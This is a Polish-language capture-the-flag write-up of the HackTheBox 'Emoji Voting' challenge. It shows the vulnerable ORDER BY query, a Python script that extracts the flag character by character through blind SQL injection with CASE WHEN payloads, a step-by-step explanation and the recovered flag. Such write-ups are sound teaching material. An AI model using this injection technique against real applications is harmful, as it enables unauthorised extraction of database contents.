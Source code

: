 ```yaml
---
Źródło: https://www.youtube.com/watch?v=WmCioU9F2_8 (John Hammond)
Event: HackTheBox Cyber Apocalypse CTF
Challenge: Emoji Voting
---
```


# Wygląd platformy

![platforma](./platform.png)

# Wektor ataku
```python
let query = `SELECT * FROM emojis ORDER BY ${ order }`;
```


# Fragment exploita

```python
...

# znalezione wcześniej
table_name = "flag_82f881e798"

leaked_data = list("CHTB{")

# &, %, $   to znaki specjalne dla SQL    
bruteforce_alphabet = string.printable.replace("&", "").replace("%", "").replace("$", "")

while True:
    for character in bruteforce_alphabet:
        # SQL jako początkowy indeks bierze 1
        position = len(leaked_data) + 1

        # wyślij requesta z payloadem i odbierz odpowiedź
        r = requests.post(
            url + "api/list",
            data ={
                "order": f"(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC "
            }
        )

        # przetwórz odpowiedź jako JSON
        j = r.json()

        # jeśli trafiłeś na dobry znak to szukaj kolejnego
        if j[0] == {'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}:
            leaked_data.append(character)
            break

        print(f"TRY: {''.join(leaked_data) + character}")

...
```

# 1.
```sql
(SELECT SUBSTR(flag,{position},1) FROM {table_name})
```
> wybierz jeden znak z pola **flag** na pozycji **position** z tabeli **flag_82f881e798**

# 2.
```sql
CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END
CASE WHEN (...)='{character}' THEN count ELSE id END
```
> jeśli znak się zgadza sortuj według **count**, jeśli nie to według **id**

# 3.
```sql
(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC
(...) ASC  
```
> sortuj **rosnąco (ascending)** po wybranej kolumnie

## Przypadek count (znak pasuje)

```sql
let query = `SELECT * FROM emojis ORDER BY count ASC`;
```

`{'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}`

## Przypadek id (znak NIE pasuje)

```sql
let query = `SELECT * FROM emojis ORDER BY id ASC`;
```

`{'id': 1, 'emoji': '👽', 'name': 'alien', 'count': 13}`

# Wynik
```
...
TRY: CHTB{order_me_this_juicy_
TRY: CHTB{order_me_this_juicy_i
TRY: CHTB{order_me_this_juicy_in
TRY: CHTB{order_me_this_juicy_inf
TRY: CHTB{order_me_this_juicy_info
TRY: CHTB{order_me_this_juicy_info}
```

